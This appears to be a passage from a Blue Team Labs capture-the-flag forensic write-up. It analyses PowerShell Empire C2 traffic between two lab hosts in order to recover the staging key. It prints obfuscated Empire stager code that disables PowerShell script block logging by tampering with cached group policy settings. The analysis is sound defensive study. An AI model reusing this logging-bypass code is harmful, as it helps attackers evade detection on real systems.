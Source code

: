 First, lets review the [staging process from Empire](https://www.powershellempire.com/?page_id=147):

[![](/assets/images/btlo/pretium/3c54575868654a409574e929fe59a3a7.png){: .align-center}](/assets/images/btlo/pretium/3c54575868654a409574e929fe59a3a7.png)  

The related packets are:

[![](/assets/images/btlo/pretium/a52161b4626b4b9aaf0fcc20543adbe5.png){: .align-center}](/assets/images/btlo/pretium/a52161b4626b4b9aaf0fcc20543adbe5.png)  

In our case the **Control Server** is **192.168.1.9** and the **Client** is **192.168.1.8**.

Let's focus on the powershell payload recovered before as this is where we could understand how the traffic will be encrypted in the next requests and we will also find the staging key that could be use to decrypt this traffic.

Let's take the first part of the script:

```powershell
If($PSVERSIoNTable.PSVErsIoN.MajoR -Ge 3)
{
    $7b0e3=[rEF].ASSEmBLy.GeTType('System.Management.Automation.Utils')."GetFie`Ld"('cachedGroupPolicySettings','N'+'onPublic,Static');
    IF($7B0e3)
    {
        $b3480=$7b0e3.GETValuE($nuLL);
        IF($B3480['ScriptB'+'lockLogging'])
        {
            $b3480['ScriptB'+'lockLogging']['EnableScriptB'+'lockLogging']=0;
            $B3480['ScriptB'+'lockLogging']['EnableScriptBlockInvocationLogging']=0
        }
        $VAl=[COLLeCtions.GenerIC.DiCtioNAry[sTring,SYSTEm.OBjecT]]::nEW();
        $VAL.ADd('EnableScriptB'+'lockLogging',0);
        $VaL.ADD('EnableScriptBlockInvocationLogging',0);
        $B3480['HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\PowerShell\ScriptB'+'lockLogging']=$val
    }
```